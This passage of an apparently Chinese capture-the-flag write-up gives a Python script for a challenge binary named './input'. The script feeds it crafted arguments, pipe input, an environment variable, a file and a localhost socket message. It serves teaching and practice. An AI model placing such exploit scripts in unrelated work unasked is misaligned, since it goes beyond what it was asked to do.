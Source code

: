 因为程序启动执行流程有时间，就等它2s

最后exploit：

```Python
import os

import socket

import time

import subprocess

#step1

args = list("A"*99)

args[ord("A")-1] = ""

args[ord("B")-1] = "\x20\x0a\x0d"

args[ord('C')-1] = "9988" #step5 's port

#step2

stdinr, stdinw = os.pipe()

stderrr, stderrw = os.pipe()

os.write(stdinw, "\x00\x0a\x00\xff")

os.write(stderrw, "\x00\x0a\x02\xff")

#step3

env = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

#step4

with open("\x0a","wb") as f:
	f.write("\x00"*4)

pro = subprocess.Popen(["./input"]+args,stdin = stdinr,stderr = stderrr,env=env)

time.sleep(2)

#step5

s = socket.socket()

s.connect(("127.0.0.1",9988))

s.send("\xde\xad\xbe\xef")
```
